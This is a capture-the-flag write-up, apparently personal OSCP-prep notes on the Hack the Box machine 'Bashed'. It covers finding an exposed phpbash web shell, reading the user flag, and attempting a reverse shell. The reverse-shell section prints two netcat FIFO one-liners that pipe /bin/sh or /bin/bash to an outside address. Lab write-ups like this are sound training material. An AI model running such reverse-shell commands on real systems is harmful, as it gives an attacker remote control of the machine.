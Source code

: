 # Website

This website seems to be a promotional page for a replica bash shell written in PHP.

![[Pasted image 20210505083541.png]]

The links all point back to `index.html`

![[Pasted image 20210505085925.png]]

I also checked the source, but there were no hidden links and the form submission didn't go anywhere. It did mention PHP:

![[Pasted image 20210505090749.png]]

As the source and the site itself both mention php, I quickly checked if the `.php` extension was valid:

![[Pasted image 20210505085959.png]]

But it seemed the index page at least was running on pure HTML.

The blog post, dated in 2017, suggests that the web shell is available on the server, and even gives us a potential URL:

![[Pasted image 20210505090142.png]]

We can also see the source code at: [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash). We'll come back to this if needed.

I tried the URL from the screenshot, but it was not found:

![[Pasted image 20210505090246.png]]

Neither was `/phpbash.php`.

## PHP Web Shell

I ran a [[Writeups/Hack the Box/Boxes/Bashed/5 - Enumeration#Gobuster|quick gobuster]] to check for potential directories for the script. It found `/php/` and `/dev/`. I tried `/php/phpbash.php`, and then `/dev/phpbash.php`, which worked:

![[Pasted image 20210505090543.png]]

I did some very quick enumeration, looking for users and quickly finding that `arrexel`'s home directory was world-readable. This gives us the user flag:

![[Pasted image 20210505091030.png]]

## Trying to Get a Reverse Shell

Before I enumerated more for priv esc, I wanted a better shell. I tried a few commands, to no avail:

![[Pasted image 20210505093721.png]]

I googled "netcat openbsd reverse shell" and tried the following commands:

```bash
www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 9001 >/tmp/f
```

But I got no result.

I also tried the `upload` custom command mentioned in the source code, to no avail.

![[Pasted image 20210505101232.png]]

I decided to continue with enumeration and come back to this once I'd rooted the box and see if anyone had done it in a writeup. I would eventually upgrade my shell [[15 - Privesc]]

# Tags

#writeup #oscp-prep #web 